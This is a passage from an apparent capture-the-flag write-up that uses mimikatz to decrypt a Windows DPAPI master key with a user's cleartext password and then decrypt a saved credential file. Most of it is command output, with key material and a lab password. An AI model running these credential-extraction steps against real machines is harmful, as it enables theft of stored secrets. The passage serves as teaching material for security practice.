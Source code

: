     45db7df847f615530a93895012a3ad9c7a8c39cc0592d06d714c9ee8fe34ced5062c412

    [backupkey]
      **MASTERKEY**
        dwVersion        : 00000002 - 2
        salt             : 4bb6dd9b5b9656d97b78f114796457f4
        rounds           : 000043f8 - 17400
        algHash          : 0000800e - 32782 (CALG_SHA_512)
        algCrypt         : 00006610 - 26128 (CALG_AES_256)
        pbKey            : 0fe6b3aa5dd3af46bd7a87cbc0161fc41ae13f8714a22bcb5bda86f24
    d95ad03369a5335159185d0276743d0c1132b35fdaffad247d3c4f5f43260413c28b401ed70e42e0
    184f9e8c4668abc36eb7327bd2c7374a2381b4cdd4ea7c465deaa755e0f53672473900db8868b428
    327edaa

    [credhist]
      **CREDHIST INFO**
        dwVersion        : 00000003 - 3
        guid             : {009668e5-9305-401b-ba0d-dfa0e11b34d0}



    [masterkey] with password: 4Cc3ssC0ntr0ller (normal user)
      key : b360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391
    c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
      sha1: bf6d0654ef999c3ad5b09692944da3c0d0b68afe



#### Decrypt Credential

I'll use that master key to decrypt the credential file. `mimikatz` is
smart enough to use the master key that is held in memory from previous
instruction, but I can also explicitly pass it with
`/masterkey:b360fa5d...`



    mimikatz # dpapi::cred /in:\users\0xdf\desktop\credentials
    **BLOB**
      dwVersion          : 00000001 - 1
      guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
      dwMasterKeyVersion : 00000001 - 1
      guidMasterKey      : {0792c32e-48a5-4fe3-8b43-d93d64590580}
      dwFlags            : 20000000 - 536870912 (system ; )
      dwDescriptionLen   : 0000003a - 58
      szDescription      : Enterprise Credential Data

      algCrypt           : 00006610 - 26128 (CALG_AES_256)
      dwAlgCryptLen      : 00000100 - 256
      dwSaltLen          : 00000020 - 32
      pbSalt             : f5bbbac240bd90d9af7d3c2cfb7f301f1f123ac94d07a3cc012038135
    fa5a6bc
      dwHmacKeyLen       : 00000000 - 0
      pbHmackKey         :
      algHash            : 0000800e - 32782 (CALG_SHA_512)
      dwAlgHashLen       : 00000200 - 512
      dwHmac2KeyLen      : 00000020 - 32
      pbHmack2Key        : f9642d323fae366a4f7293d02f26e4472adc32b00bac6a061914458da
    dfd3e52
      dwDataLen          : 00000100 - 256
      pbData             : e73542ff71d08529f9da5ff88edcd5be44d11c9c02c45fdfd9ee5a531
    628cb0f9e8dc221eb5b4d83a857aff13473131c927527217fe177e08d63a63eb5ce5341576b33332
    806e062363e58786fb7551aaa2e0676b8e3957f43cf1f11a2ed149c431104e5f93f20364916df25a
    0168ede23788bd9d71192cdb661c5c5686ed256c8691057fe6fe2a2b1765ba0979ee9140c010210e
    ea81ac00830f74c35a196ac1f46bd69d7a86ca82da15f9bbcf1c40cbbe41d58d4a8924afde97e2a9
    9a6e9f33a297ef2508401c229a451b911e9469ba17d71288dc6c37ee26c65ecc8accd4b5b3c0c2cc
    fcae6b0a76384a0e27c4edb7a0ecece2afd9889252304db5767bbc3
      dwSignLen          : 00000040 - 64
      pbSign             : 63fcc153bcd60befd074a5098ea0e552f8809562c553985baa8720a82